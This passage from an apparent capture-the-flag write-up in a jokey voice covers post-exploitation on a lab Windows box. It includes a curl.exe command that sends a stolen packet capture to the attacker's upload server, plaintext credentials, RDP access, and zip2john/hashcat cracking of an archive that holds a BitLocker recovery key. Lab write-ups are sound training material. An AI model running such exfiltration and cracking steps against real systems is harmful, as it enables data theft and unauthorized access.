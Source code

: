 Now I create a new event with a nearby time, logout and login as `k.turner` with pass `MessengerApp@Pass!` and wait. You also need to have the same binary in your local machine in order to create the event. Just make sure martinez stays online. If not? Cry harder, reset the box, and try again. Eventually you will get a shell bro.

!!!info
At this point you can switch back to a Linux VM or continue on Windows if you prefer ;)
!!!

#### PCAP Analysis and BitLocker Decrypt
So we pokin’ around in Martinez’s AppData, and guess what man’s got tucked away in the digital sock drawer? A juicy lil `.pcapng` file sittin’ there like it didn’t just witness a whole cybercrime. File’s named `network_capture_2024.pcapng`—real subtle. Naturally, we snatch it. Set up a quick n’ dirty Python upload server on our end, then slap that file across the internet like we’re trading bootleg mixtapes.

```console
$ python -m uploadserver
PS C:\Users\O.martinez\AppData> curl.exe http://10.10.14.7:8000/upload -F "files=@network_capture_2024.pcapng" -f "token=helloworld"
```

Now inside the capture, we dig up two little digital treasures:
1. A sketchy-looking file labeled `BitLocker-backup.7z` (because encrypting your own encryption is totally normal, right?)
2. A cleartext password floating inside an API call: `M@rtinez_P@ssw0rd!` dropped casually in a `change_auth_token` request. Like bro, you good?

Armed with the creds, we RDP into Martinez’s box. Like legally? No. But efficiently? Absolutely. Anyway, this zip file’s got a password on it. Of course it does. But we ain’t scared of some password-protected nonsense. We hit it with that `zip2john` → `hashcat` combo and let RockYou do what RockYou does best.

```console
$ zip2john BitLocker-backup.7z > bitlocker.hash
$ hashcat bitlocker.hash $ROCKYOU
```

Password? Man, it’s just `zipper`. Truly the creativity is off the charts. Inside? The BitLocker recovery key. That’s like finding the keys to someone’s panic room inside their junk drawer.

![](/assets/images/writeups/infiltrator/Bitlocker-Key.png)
